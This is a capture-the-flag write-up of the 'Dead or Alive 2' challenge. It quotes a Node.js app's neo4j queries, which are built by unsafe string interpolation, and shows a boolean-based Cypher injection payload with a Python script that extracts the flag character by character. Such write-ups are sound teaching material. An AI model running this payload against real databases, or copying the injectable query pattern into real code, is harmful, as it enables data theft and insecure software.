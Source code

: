 # Dead or Alive 2
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We have been given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website

![preview](images/preview.png)

In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.

![form](images/form.png)

The website will generate the possible diseases we may suffer from based on the symptoms

![diagnosis](images/diagnosis.png)

## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the `flag` table. To obtain the flag, we are using `boolean-based` payload. My friend created a python script to test each character and using `Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH 'ctfzone{a'//` as a payload

```python
import requests
import random
import string

url = "https://dead-or-alive.ctfz.one/"
flag = "ctfzone{"
wordlist = string.ascii_letters + string.digits + "{}_!"
while True:
    for c in wordlist:
        print(f"Trying {flag+c}")
        ssn = random.randint(100000000,999999999)
        r = requests.post(url+"api/setUser", json={
            "ssn":ssn,
            "fullname":"test",
            "dateOfBirth":"12/02/2003",
            "weight":"88"
        })


        r = requests.post(url+"api/setSymptoms", json={
            "ssn":ssn,
            "symptoms":[
                f"Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH '{flag+c}'//"
            ]
        })

        r = requests.post(url+"api/getDiagnosis", json={
            "ssn":ssn
        })

        if r.json()['status'] == "Diagnosis found":
            flag += c
            print(flag)
            break
```

![flag](images/flag.png)

```
ctfzone{N0w_Y0u_4re_C0mpl3t3ly_H34lTy!}
```